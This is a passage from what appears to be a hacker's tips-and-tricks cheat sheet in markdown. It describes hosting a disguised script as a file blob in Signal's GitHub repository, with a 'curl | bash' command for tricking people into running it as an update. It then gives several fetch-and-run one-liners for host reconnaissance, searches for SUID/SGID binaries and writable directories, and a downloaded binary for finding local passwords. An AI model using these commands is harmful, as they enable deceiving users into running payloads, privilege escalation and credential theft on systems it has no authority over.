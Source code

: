 2. Rename `egg.sh` to `update-for-fools.txt` and upload as blob to [Signal's](https://www.signal.org/) GitHub repository.

3. Don't fool people to update Signal using this command ❤️:
```sh
curl -fL https://github.com/signalapp/Signal-Desktop/files/15037868/update-for-fools.txt | bash
```

<a id="hostrecon"></a>
## 7. Host Recon
---

Get [essential information](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/blob/master/tools/whatserver.sh) about a host:
```sh
curl -fsSL https://thc.org/ws | bash
```

netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/master/tools/awk_netstat.sh | bash
```

Speed check the system
```sh
curl -fsSL https://bench.sh | bash
# Another speed check:  
# curl -fsSL https://yabs.sh | bash
```

Find all suid/sgid binaries:
```
find  / -xdev -type f -perm /6000  -ls 2>/dev/null
```

Find all writeable directories:
```bash
wfind() {
    local arr dir

    arr=("$@")
    while [[ ${#arr[@]} -gt 0 ]]; do
        dir=${arr[${#arr[@]}-1]}
        unset "arr[${#arr[@]}-1]"
        find "$dir"  -maxdepth 1 -type d -writable -ls 2>/dev/null
        IFS=$'\n' arr+=($(find "$dir" -mindepth 1 -maxdepth 1 -type d ! -writable 2>/dev/null))
    done
}
# Usage: wfind /
# Usage: wfind /etc /var /usr 
```

Find local passwords (using [noseyparker](https://github.com/praetorian-inc/noseyparker)):
```sh
curl -o np -fsSL https://github.com/hackerschoice/binary/raw/main/tools/noseyparker-x86_64-static
chmod 700 np && \
./np scan . && \
./np report --color=always | less -R
```
(Or use [PassDetective](https://github.com/aydinnyunus/PassDetective) to find passwords in ~/.*history)
